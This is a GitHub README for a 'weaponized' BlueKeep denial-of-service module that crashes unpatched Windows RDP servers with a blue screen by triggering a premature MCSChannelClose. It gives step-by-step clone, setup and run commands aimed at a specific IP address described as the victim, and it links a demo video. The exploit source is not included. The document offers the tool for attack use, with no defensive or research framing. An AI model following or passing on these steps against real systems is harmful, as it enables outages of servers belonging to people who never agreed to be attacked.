 # BLUEKEEP_WEAPONIZED_DOS

<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS.git</p></b>
  <p><b>cd BLUEKEEP_WEAPONIZED_DOS/</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 64</p></b>
  <p><b>or</p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Captain_Nemo </p></b>

<p><a href= "https://youtu.be/oUKoKYMpXRE" rel="nofollow">
      <img src="https://www.youtube.com/upload_thumbnail?v=oUKoKYMpXRE&t=hqdefault&ts=1559903757084"  alt="to_video" style="max-width:100%;">
  </a></p>
